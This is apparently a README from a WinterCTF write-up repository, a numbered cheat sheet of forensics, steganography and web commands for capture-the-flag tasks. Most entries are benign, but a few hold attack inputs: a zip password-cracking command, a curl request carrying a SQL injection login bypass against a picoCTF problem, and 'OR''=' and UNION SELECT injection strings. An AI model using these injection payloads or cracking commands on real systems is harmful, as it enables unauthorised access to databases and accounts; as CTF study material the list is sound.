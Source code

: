 # WinterCTF
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS


SOME Useful Tools, links and commands


1)binwalk -e <filenam> : //Extracts hidden files

2)steghide extract -sf <filename> : //Extracts hidden text in the image

3)xxd <file name> : //Prints the Hex version of file

4)grep "element" //finds the element

5)strings <filename> // gives the strings hidden in the file

6)hexedit <filename>

7)java -jar stegsolve.jar

8)pngcheck <filename>

9)tar -xvf <filename>

10)cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      // used this command to obtain the flag from the java file having flag characters written in an scrambled order 

11)fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip     
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 

12)ltrace ./file     is a helphul command to see the functioning of a program
also use strace

13)Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.

14)curl "https://2019shell1.picoctf.com/problem/4162/login.php" --data "username=admin&password='+or+1=1--" && echo 
   this command will find the password to username admin stored in database.

15)Robots -->>> url/robots.txt (shows hidden info)

16)cat /proc/(process id)/             
    we can see all files running in the process with given process id.

17)use tcpflow -r file  for pcap

18)exiftool for meta data

19) git show -1 filename.txt > to compare against the last revision of file
    git show -2 filename.txt > to compare against the 2nd last revision of file

20)Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.

21) 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
